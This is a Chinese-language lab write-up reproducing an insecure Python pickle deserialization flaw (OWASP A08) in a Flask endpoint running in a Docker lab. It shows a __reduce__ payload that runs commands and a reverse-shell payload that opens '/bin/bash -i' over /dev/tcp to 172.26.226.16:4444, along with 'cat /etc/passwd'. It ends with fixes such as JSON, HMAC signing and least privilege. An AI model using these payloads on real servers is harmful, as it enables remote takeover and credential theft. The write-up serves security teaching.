



# A08:2021 - 软件和数据完整性故障（Software and Data Integrity Failures）

## 一、项目概述

本实验复现 OWASP Top 10 中的 A08: Software and Data Integrity Failures 漏洞，重点演示由于服务端对不可信数据进行不安全反序列化 Python pickle 所导致的远程代码执行 RCE 问题。攻击者可构造恶意序列化数据，在服务端反序列化时触发任意代码执行，进而获取目标系统控制权限

---

## 二、实验环境

* 攻击机：Windows（宿主机）
* 监听工具：ncat（Nmap 套件）
* 目标环境：Docker 容器（Linux）
* Web 框架：Flask
* 漏洞接口：/deserialize

---

## 三、漏洞原理分析

服务端存在如下核心逻辑：

```python
data = request.form['data']
obj = pickle.loads(base64.b64decode(data))
```

### 漏洞点：

* 使用 pickle.loads() 对用户输入进行反序列化
* 未进行任何签名校验或数据验证
* pickle 在反序列化时会执行对象的 **reduce** 方法

### 攻击本质：

攻击者可构造带有恶意 **reduce** 方法的对象，在反序列化过程中触发任意函数调用，实现远程代码执行

---

## 四、攻击流程

### 1. 信息收集

* 发现接口 /deserialize 接收 POST 请求
* 参数 data 为 Base64 编码数据
* 推测后端使用 pickle 反序列化

---

### 2. 构造恶意 Payload（RCE）

```python
class RCE:
    def __reduce__(self):
        return (subprocess.getoutput, ("whoami",))
```

执行后可在服务端运行命令并返回结果

---

### 3. 验证漏洞（POC）

发送请求：

```http
POST /deserialize
data=<base64_payload>
```

返回：

```text
root
```

证明漏洞存在<br />
(图例为执行命令：whoami    ls    cat /etc/passwd)


---

### 4. 构造反弹 Shell Payload

```python
class ReverseShell:
    def __reduce__(self):
        cmd = "/bin/bash -c '/bin/bash -i >& /dev/tcp/172.26.226.16/4444 0>&1'"
        return (subprocess.getoutput, (cmd,))
```

---

### 5. 建立监听

```bash
ncat -lvnp 4444
```

---

### 6. 发送 Exploit

运行 shell_exploit.py：

```bash
python shell_exploit.py
```

---

### 7. 获取 Shell

监听端接收到连接：

```bash
bash-5.1#
```

成功获取目标容器交互式 shell

---


## 五、攻击结果

攻击者成功实现：

* 任意命令执行（RCE）
* 获取目标系统 shell
* 控制 Docker 容器环境

示例命令：

```bash
whoami
uname -a
cat /etc/passwd
```

---

## 六、风险分析

该漏洞可能导致：

* 服务器完全被接管
* 数据泄露或篡改
* 横向移动攻击
* 持久化后门植入

属于高危漏洞 Critical

---

## 七、修复建议

### 1. 禁止使用 pickle 反序列化不可信数据

改用安全格式：

* JSON
* XML（需安全解析）

---

### 2. 增加数据完整性校验

* 使用 HMAC 签名
* 验证数据来源可信性

---

### 3. 最小权限原则

* 限制容器权限
* 避免使用 root 用户运行服务

---

### 4. 输入校验

* 严格验证用户输入
* 拒绝异常数据

---

### 5. 使用安全序列化库

如：

* json.loads()
* marshmallow

---

## 八、总结

本实验成功复现了 OWASP A08 漏洞，通过利用 Python pickle 的不安全反序列化机制，实现了从漏洞发现到远程代码执行，再到反弹 shell 获取系统控制权限的完整攻击链

该漏洞危害极大，实际开发中必须避免对不可信数据进行反序列化操作，并加强数据完整性验证与安全防护措施

---

## 九、参考

* OWASP Top 10 2021
* Python pickle 官方文档
* 反序列化漏洞相关研究资料
